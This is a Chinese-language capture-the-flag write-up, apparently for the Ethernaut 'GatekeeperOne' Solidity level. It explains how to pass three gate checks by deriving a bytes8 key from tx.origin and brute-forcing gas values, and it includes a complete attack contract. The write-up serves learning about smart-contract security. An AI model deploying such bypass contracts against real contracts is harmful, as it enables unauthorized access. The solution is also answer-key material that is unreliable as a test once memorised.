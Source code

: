# 13. GatekeeperOne
### 原题
越过守门人并且注册为一个参赛者来完成这一关.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

### 分析
这道题就是让我们只要能够通过那三个的修饰器(gateOne，gateTwo，gateThree)的校验就算成功。\
看到都是uint64，uint32，bytes8的各种套嵌转换，一时还会把我们唬住。\
喝口水，不紧张，慢慢来，这些都是计算机的基础知识了。\
bytes8就等于64位。\
tx.origin作为地址，20个字节，那么就是正好160位。\
uint32(), uint16()转换的时候都是从低位截取。\
`uint32(uint64(_gateKey)) ==> _gateKey的低32位` \
`uint16(uint64(_gateKey)) ==> _gateKey的低16位` \
如果要
1.`uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))` \
想象成16位，放大到32位，那么16位左侧要补充16个0 \
就像这样：`00001234 == 1234` \
那么我们可以画个内存的示意图 

|16位	|16位	|16位|16位
|:-------|:-----|:--------|:--------|
|未知|未知|0000|未知|

再看第三个条件 \
2.`uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)` \
结合第一个条件得到: \
`uint16(uint64(_gateKey)) == uint16(uint160(tx.origin)` \
这时候内存表应该这样：

|16位	|16位	|16位|16位
|:-------|:-----|:--------|:--------|
|未知|未知|0000|uint16(uint160(tx.origin)|

我们再看第二个条件：\
`uint32(uint64(_gateKey)) != uint64(_gateKey)` \
第一个条件是要相等，这个正好相反，需要不相等，什么是不相等呢？\
那肯定，在64位的高32位不等于0就可以了，也就是说任何数

|16位	|16位	|16位|16位
|:-------|:-----|:--------|:--------|
|任意|任意|0000|uint16(uint160(tx.origin)|

那我们就可以拼出来这个_gateKey了。\
`gateKey = bytes8(uint64(0x12345678)<<32 | uint16(uint160(tx.origin)))` \
"0x12345678"表示任意的数字，再左移32位，\
这时候低32位都是0，然后按位或运算（或运算应该都知道） \
把uint16(uint160(tx.origin)合并到64位的低16位上。\
我们再来看第一个修饰器，这个很简单，我们使用攻击合约就可以。\

第二个修饰器破解才是比较累的。`8191`并不是个特殊的数字。\
gasLeft()表示剩余的gas，`gas % 8191 == 0`,这个怎么去计算出来正好是8191的整倍数数值呢？\
关键是gasLeft()不好精确的计算出来,每个环境不同，编译版本不同。\
我们采用循环扫描去命中，考虑到gas费也有个上限，\
所以分段扫描，不用怕，反正最多也就8191次：）
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "hardhat/console.sol";

interface IGatekeeper {
    function enter(bytes8 _gateKey) external  returns (bool);
}

contract GatekeeperAttack {

    IGatekeeper public immutable gatekeeper;

    constructor(address _gatekeeper) {
        gatekeeper = IGatekeeper(_gatekeeper);
    }
    /**
     * k是8191的倍数，作为起步gas费用
     * start是分段起始数：[0,maxIndex],[maxIndex, 2 * maxIndex]...，每次扫描就需要修改,递增
     * maxIndex单次最大循环次数
     */
    function attack(uint256 k, uint256 start, uint256 maxIndex) public {
        bytes8 gateKey = key();
        uint256 base = k * 8191;

        for(uint8 i = 0; i < maxIndex; i++) {
          (bool success,) = address(gatekeeper).call{gas: base + start + i}(
            abi.encodeWithSelector(gatekeeper.enter.selector, gateKey)
          );
          if (success) break;
        }

    }

    function key() public view returns(bytes8) {
        // uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)

        uint16 low16 = uint16(uint160(tx.origin));
        
        return bytes8(uint64(0x12345678)<<32 | low16);

    }

}
```
### 总结
这个扫描命中就像修仙，打怪升级。在升级过程中，还要考虑本身的消耗带来的副作用。
